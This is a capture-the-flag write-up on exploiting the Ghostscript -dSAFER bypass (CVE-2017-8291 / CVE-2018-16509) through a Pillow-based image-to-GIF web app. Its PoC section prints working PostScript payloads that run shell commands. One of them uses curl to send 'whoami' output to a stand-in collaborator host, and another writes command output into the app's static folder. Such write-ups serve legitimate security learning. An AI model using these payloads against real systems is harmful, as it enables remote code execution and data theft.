 Challenge description
---------------------

This challenge involves exploiting CVE-2017-8291 / CVE-2018-16509 (GhostButt) on `ghostscript`. 

Web application description
---------------------------

The web application basically accepts an image file and convert it to a GIF by using `PIL`. I tried uploading malicious stuff but the upload file type validation is done nicely. 

Methodology on finding the CVEs
-------------------------------

When inspecting the `Dockerfile`, we can see `ghostscript` is installed for “Pillow component” (the Python `PIL`). 

![](src/image.png)

When searching exploits for `Ghostscript`, there are a lot of it. One example is from the `metasploit`:

![](src/1_image.png)

![](src/2_image.png)

`metasploit` even told us that it can be exploited through libraries such as `Pillow`. However, it only works for `Ghostscript` versions 9.21 and earlier. After doing some research, it seems like there is a new exploit (CVE-2018-16509) which works for versions 9.23 and earlier. 

GhostButt
---------

`Ghostscript` is a software pre-installed in many production servers (e.g. `/usr/local/bin/gs`) even if no application uses it because it is a dependency of many image software. 

This is a sample `gs` command: `gs -q -g100x100 -r72.000000x72.000000 -dBATCH -dNOPAUSE -dSAFER -sDEVICE=ppmraw -sOutputFile=/tmp/tmpi8gqd19k -c 0 0 translate -f ../poc.png` (used by Python `PIL`). In this command, it uses `-dSAFER` which disallows behaviors like file deletion, rename and command execution. However, CVE-2017-8291 is the bypass of `dSAFER`. 

`PIL` and `Ghostscript`
-----------------------

Basically, the `PIL.Image.open()` function will use a function called `_open_core()`, which will again use another function called `accept()`. This `accept()` function will determine the file type based on the file prefix. If the file prefix is `%!PS`, it will process the file as EPS format (use `Ghostscript`) even though the file extension is `.jpg`. 

However, by calling `Image.open` by itself won't trigger the vulnerability, other functions such as `Image.load` must be called. The web application does not call `Image.load` but almost any other `PIL.Image` functions will use `load()`. 

![](src/3_image.png)

PoC
---

I got my PoC.jpg from [here](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509) and I changed the command executed to exfiltrate target system information:

```text-plain
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%curl https://BURP-COLLABORATOR.com/?info=$(whoami)) currentdevice putdeviceprops
```

However, this did not work maybe because the target firewall blocks outbound DNS and HTTP requests.

So, I wrote the command result into a file in the upload directory:

![](src/4_image.png)

```text-plain
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%whoami > /app/application/static/petpets/rce.txt) currentdevice putdeviceprops
```

Result:

![](src/5_image.png)
